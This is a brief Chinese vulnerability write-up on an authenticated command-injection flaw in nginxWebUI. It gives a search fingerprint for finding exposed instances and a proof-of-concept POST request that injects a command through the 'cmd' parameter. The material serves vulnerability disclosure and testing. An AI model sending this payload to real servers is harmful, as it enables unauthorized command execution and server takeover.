 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>nginxWebUI </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1.png)

验证请求包

```php
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656223447202-743e2c21-d042-4811-b135-d67b4155791e.png)